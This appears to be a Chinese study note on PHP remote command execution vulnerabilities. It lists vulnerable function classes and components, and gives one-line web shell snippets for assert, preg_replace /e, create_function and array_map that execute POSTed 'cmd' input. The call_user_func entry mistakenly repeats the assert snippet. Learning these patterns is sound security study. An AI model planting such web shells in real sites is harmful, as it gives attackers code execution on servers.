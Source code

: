 # RCE


&gt; 参考文章：
&gt; [【web安全】——命令执行漏洞（RCE）详解](https://blog.csdn.net/qq_63844103/article/details/126953630)\
&gt; [RCE总结](https://blog.csdn.net/weixin_46706771/article/details/119008895?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522169383565116800184198616%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&amp;request_id=169383565116800184198616&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-4-119008895-null-null.142^v93^control&amp;utm_term=rce&amp;spm=1018.2226.3001.4187)
## 漏洞分类

* 代码层过滤不严
商业应用的一些核心代码封装在二进制文件中，在web应用中通过system函数来调用：
```
system(&#34;/bin/program --arg $arg&#34;);
```
* 系统的漏洞造成命令注入
比如：bash破壳漏洞
* 调用的第三方组件存在代码执行漏洞
 如：wordPress中用来处理图片的imageMagick组件、JAVA中的命令执行漏洞（struts2/ElasticsearchGroovy等）、ThinkPHP5.x的命令执行

## PHP可能存在命令执行漏洞的函数
**利用系统函数实现命令执行的函数**

* eval（）

  * 传入的参数必须为PHP代码，既需要以分号结尾

* assert（）

  * 最好不要加上分号作为结尾
  * `&lt;?php @assert($_POST[&#39;cmd&#39;])?&gt;`

* preg_replace（&#39;正则规则&#39;,&#39;替换字符&#39;，&#39;目标字符&#39;）

  * `preg_replace(&#34;/test/e&#34;,$_POST[&#34;cmd&#34;],&#34;jutst test&#34;);`

* call_user_func（）

  * `&lt;?php @assert($_POST[&#39;cmd&#39;])?&gt;`

* create_function()

  * 
    创建匿名函数执行代码
  * 执行命令和上传文件参考eval函数(必须加分号)
  * `&lt;?php $func =create_function(&#39;&#39;,$_POST[&#39;cmd&#39;]);$func(); ?&gt;`

* array_map()

  * ```
    &lt;?php
        $func=$_GET[&#39;func&#39;];
        $cmd=$_POST[&#39;cmd&#39;];
        $array[0]=$cmd;
        $new_array=array_map($func,$array);
        echo $new_array;
    ?&gt;
    ```
